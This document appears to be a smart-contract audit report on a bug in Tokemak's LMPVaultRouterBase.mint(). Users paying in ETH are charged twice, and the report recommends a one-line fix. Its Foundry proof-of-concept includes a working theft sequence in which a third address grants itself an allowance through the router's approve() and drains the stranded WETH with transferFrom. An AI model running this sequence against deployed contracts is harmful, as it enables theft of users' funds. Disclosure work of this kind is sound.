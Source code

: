 Jumpy Chili Copperhead

high

# LMPVaultRouterBase.mint() will double charge a user when the user sends asset tokens using eth (msg.value > 0), and then a stealer can steal the extra payment.
## Summary
LMPVaultRouterBase.mint() will double charge a user when address(vault.asset()) == address(weth9). If a user sends ETH in msg.value, ``_processEthIn()`` will convert the received ETH to weth, and then ``pullToken(vaultAsset, assets, address(this));`` will charge the user weth again, a double charge to the user. 
The LMPVaultRouterBase contract will receive both eth and weth, a double payment. Our POC confirms this finding. 

Even worse, another user can steal the extra payment of weth that is stored in the LMPVaultRouterBase account. This is accomplished by calling the approve() function in the parent contract PeripherayPayments to give allowance to the stealer, and then the stealer can simply steal the funds via calling weth.transferFrom(). 

## Vulnerability Detail
A user can mint vault tokens via mint(): 

[https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVaultRouterBase.sol#L23-L41](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVaultRouterBase.sol#L23-L41)

A user can send ETH directly via msg.value when address(vault.asset()) == address(weth9), in this case the ``_processEthIn(`` converts eth into weth:

[https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVaultRouterBase.sol#L111-L122](https://github.com/Tokemak/v2-core-audit-2023-07-14/blob/62445b8ee3365611534c96aef189642b721693bf/src/vault/LMPVaultRouterBase.sol#L111-L122)

However,  ``pullToken(vaultAsset, assets, address(this));`` will charge the user again by pulling weth from msg.sender. As a result, the user (msg.sender) is charged twice, a loss of funds.

Extra funds of weth9 will be stored in the contract and then another user can steal the funds by calling the the approve() function in the parent contract PeripherayPayments to give allowance to the stealer, and then the stealer can simply steal the funds via calling weth.transferFrom(). 

## Impact
The user (msg.sender) is charged twice, a loss of funds when the user send ETH via msg.value and address(vault.asset()) == address(weth9).  Moreover, a stealer can steal such extra funds of weth in the contract.

## Code Snippet
The following POC code confirms my finding. As one can see, the user is charged with 0.1e18 eth as well as 0.1e18 weth, a double charge. For simplicity, I commented out the line "rewarder.stake(to, amount);" from LMPVault._afterTokenTransfer(), which should not affect this finding result. 

The POC also show the stealer address(333) can easily steal the extra payment of 0.1e18 WETH9 from the contract by setting allowance and then perform a transferFrom. 

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity =0.8.17;

import "forge-std/Test.sol";
import { TestERC20 } from "test/mocks/TestERC20.sol";
import { SystemRegistry } from "src/SystemRegistry.sol";
import { LMPVaultRegistry } from "src/vault/LMPVaultRegistry.sol";
import { LMPVaultFactory } from "src/vault/LMPVaultFactory.sol";
import { AccessController } from "src/security/AccessController.sol";
import { SystemSecurity } from "src/security/SystemSecurity.sol";
import { LMPVault } from "src/vault/LMPVault.sol";
import { Roles } from "src/libs/Roles.sol";
import { Clones } from "openzeppelin-contracts/proxy/Clones.sol";

import { IWETH9 } from "src/interfaces/utils/IWETH9.sol";
import "src/tokens/WETH9.sol";
import "src/vault/LMPVaultRouterBase.sol";


contract myLMPVaultRouterBase is LMPVaultRouterBase{
    constructor(address _weth9)LMPVaultRouterBase(_weth9)
    {

    }
} 

contract MyTest is Test {
    using Clones for address;

    SystemRegistry private _systemRegistry;
    AccessController private _accessController;
    LMPVaultRegistry private _lmpVaultRegistry;
    LMPVaultFactory private _lmpVaultFactory;
    SystemSecurity private _systemSecurity;
    address _template;

    TestERC20 _toke;
    TestERC20 _asset;
    IWETH9 weth9;
    myLMPVaultRouterBase lmp;
    LMPVault _vault;
    



    function setUp() public virtual {
        vm.label(address(this), "testContract");

        _toke = new TestERC20("test", "test");
        vm.label(address(_toke), "toke");

        _systemRegistry = new SystemRegistry(address(_toke), address(new TestERC20("weth", "weth")));
        _systemRegistry.addRewardToken(address(_toke));

        _accessController = new AccessController(address(_systemRegistry));
        _systemRegistry.setAccessController(address(_accessController));

        _lmpVaultRegistry = new LMPVaultRegistry(_systemRegistry);
        _systemRegistry.setLMPVaultRegistry(address(_lmpVaultRegistry));

        _systemSecurity = new SystemSecurity(_systemRegistry);
        _systemRegistry.setSystemSecurity(address(_systemSecurity));

        // Setup the LMP Vault

        _asset = new TestERC20("asset", "asset");
        _systemRegistry.addRewardToken(address(_asset));
        vm.label(address(_asset), "asset");

       
        weth9 = IWETH9(address(new WETH9()));
        _template = address(new LMPVault(_systemRegistry, address(weth9)));

        _lmpVaultFactory = new LMPVaultFactory(_systemRegistry, _template, 800, 100);    
        _accessController.grantRole(Roles.REGISTRY_UPDATER, address(_lmpVaultFactory));         


        lmp = new myLMPVaultRouterBase(address(weth9));
        _vault = LMPVault(address(_template).cloneDeterministic(keccak256("salt")));
        _vault.initialize(1000e18, 1e18, "x", "y", "");
        
    }


    function testMe() public
    {
        weth9.deposit{value: 1e18}();
        assertEq(1e18, weth9.balanceOf(address(this)));
        uint256 beforeWethBal =  weth9.balanceOf(address(this));
        uint256 beforeEthBal = address(this).balance;
        
        weth9.approve(address(lmp), 0.1e18);
        lmp.mint{value: 0.1e18}(_vault, address(333), 0.1e18, 0.1e18);

        uint256 afterWethBal =  weth9.balanceOf(address(this));
        uint256 afterEthBal = address(this).balance;

        console2.log("beforeWethBal: %d", beforeWethBal);
        console2.log("afterWethBal: %d", afterWethBal);       
        console2.log("beforeEthBal: %d", beforeEthBal);
        console2.log("afterEthBal: %d", afterEthBal);       
        

        assertEq(beforeWethBal - afterWethBal, 0.1e18);     // paid 0.1e18 weth 
        assertEq(beforeEthBal - afterEthBal, 0.1e18);      // also paid 0.1e18 eth, doubple payment 

        // now address(333) can steal the 0.1e18 in the contract
        uint256 before333bal = weth9.balanceOf(address(333));
        vm.prank(address(333));
        lmp.approve(IERC20(address(weth9)), address(333), 0.1e18);
        vm.prank(address(333));
        weth9.transferFrom(address(lmp), address(333), 0.1e18);
        uint256 after333bal = weth9.balanceOf(address(333));
        console2.log("after333bal: %d", after333bal);

        assertEq(after333bal-before333bal, 0.1e18);
    }
}
```

## Tool used
VScode

Manual Review

## Recommendation
Only call  ``pullToken(vaultAsset, assets, address(this));`` when msg.value == 0. 

```diff
 function mint(
        ILMPVault vault,
        address to,
        uint256 shares,
        uint256 maxAmountIn
    ) public payable virtual override returns (uint256 amountIn) {
        // handle possible eth
        _processEthIn(vault);

        IERC20 vaultAsset = IERC20(vault.asset());
        uint256 assets = vault.previewMint(shares);
-        pullToken(vaultAsset, assets, address(this));
+      if(msg.value == 0) pullToken(vaultAsset, assets, address(this));

        vaultAsset.safeApprove(address(vault), assets);

        amountIn = vault.mint(shares, to);
        if (amountIn > maxAmountIn) {
            revert MaxAmountError();
        }
    }

```
